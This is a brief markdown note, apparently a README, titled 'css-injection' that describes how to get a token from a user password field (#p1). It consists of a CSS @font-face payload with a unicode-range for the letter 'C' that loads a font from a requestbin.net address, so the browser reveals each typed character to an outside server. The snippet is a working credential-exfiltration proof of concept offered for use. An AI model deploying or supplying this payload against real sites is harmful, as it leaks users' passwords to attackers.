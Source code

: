 # css-injection
Get token : 
champs de mdp user #p1

>@font-face{
> font-family:poc;
> src: url(2oup48x1s6rf06jj.b.requestbin.net/?C);
> unicode-range:U+0043;
>}
>#p1{
> font-family:poc;
>}
